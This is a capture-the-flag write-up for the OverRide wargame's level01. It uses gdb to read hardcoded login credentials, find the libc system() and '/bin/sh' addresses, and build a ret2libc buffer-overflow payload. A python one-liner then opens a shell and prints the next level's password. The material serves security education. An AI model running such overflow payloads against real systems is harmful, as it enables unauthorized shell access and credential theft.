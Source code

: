 ```
(gdb) b verify_user_pass
Breakpoint 1 at 0x80484a8
(gdb) b verify_user_name
Breakpoint 2 at 0x8048469
(gdb) b puts@plt
Breakpoint 3 at 0x8048380
```

run and continue to Breakpoint 3 (puts@plt)

```
(gdb) disass verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   %ebp
   0x08048465 <+1>:	mov    %esp,%ebp
   0x08048467 <+3>:	push   %edi
   0x08048468 <+4>:	push   %esi
   0x08048469 <+5>:	sub    $0x10,%esp
   0x0804846c <+8>:	movl   $0x8048690,(%esp)
   0x08048473 <+15>:	call   0x8048380 <puts@plt>
   0x08048478 <+20>:	mov    $0x804a040,%edx
   0x0804847d <+25>:	mov    $0x80486a8,%eax
   0x08048482 <+30>:	mov    $0x7,%ecx
   0x08048487 <+35>:	mov    %edx,%esi
   0x08048489 <+37>:	mov    %eax,%edi
   0x0804848b <+39>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804848d <+41>:	seta   %dl
   0x08048490 <+44>:	setb   %al
   0x08048493 <+47>:	mov    %edx,%ecx
   0x08048495 <+49>:	sub    %al,%cl
   0x08048497 <+51>:	mov    %ecx,%eax
   0x08048499 <+53>:	movsbl %al,%eax
   0x0804849c <+56>:	add    $0x10,%esp
   0x0804849f <+59>:	pop    %esi
   0x080484a0 <+60>:	pop    %edi
   0x080484a1 <+61>:	pop    %ebp
   0x080484a2 <+62>:	ret
```

let's watch what is copied at this addr 0x80486a8

```
End of assembler dump.
(gdb) x/30s 0x80486a8
0x80486a8:	 "dat_wil"
0x80486b0:	 "admin"
0x80486b6:	 ""
0x80486b7:	 ""
0x80486b8:	 "********* ADMIN LOGIN PROMPT *********"
0x80486df:	 "Enter Username: "
0x80486f0:	 "nope, incorrect username...\n"
0x804870d:	 "Enter Password: "
0x804871e:	 "nope, incorrect password...\n"
0x804873b:	 ""
0x804873c:	 "\001\033\003;@"
0x8048742:	 ""
0x8048743:	 ""
0x8048744:	 "\a"
0x8048746:	 ""
0x8048747:	 ""
0x8048748:	 "\024\374\377\377\\"
0x804874e:	 ""
0x804874f:	 ""
0x8048750:	 "(\375\377\377\200"
0x8048756:	 ""
0x8048757:	 ""
0x8048758:	 "g\375\377\377\250"
```

we can see login: dat_wil and password: admin

Here we manage to overwrite the EIP at offset 80. We cas then use a ret2libc exploit.

```
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

get addr of system addr: 0xf7e6aed0

```
(gdb) info proc map
process 1783
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	 0x804b000  0x806c000    0x21000        0x0 [heap]
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

get addr of all library C function so between 0xf7e2c000 and 0xf7fd0000

```
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

we find the /bin/sh addr 0xf7f897ec

```
(gdb) disass main
[...]
0x080485b5 <+229>:	ret
```

```
[...]
   0x08048565 <+149>:	movl   $0x64,0x4(%esp)
[...]
```

the row of password field is 100 chars

#### build exploit:

USERNAME + '\n'(next fgets) + 'A' * 80 + RETURN_MAIN_FUNCTION + SYSTEM_FUNCTION_ADDR + 4_CHARs + ADDR_OF_/bin/sh

#### result:

'dat_wil' + '\n' + 'A' * 80 + '\xb5\x85\x04\x08' + '\xd0\xae\xe6\xf7' + 'DUMP' + '\xec\x97\xf8\xf7'

80 + 4 + 4 + 4 + 4 = 100

```
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 80 + '\xb5\x85\x04\x08' + '\xd0\xae\xe6\xf7' + 'A' * 4 + '\xec\x97\xf8\xf7'" > /tmp/level1
level01@OverRide:~$ cat /tmp/level1 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
^C
Segmentation fault (core dumped)
```
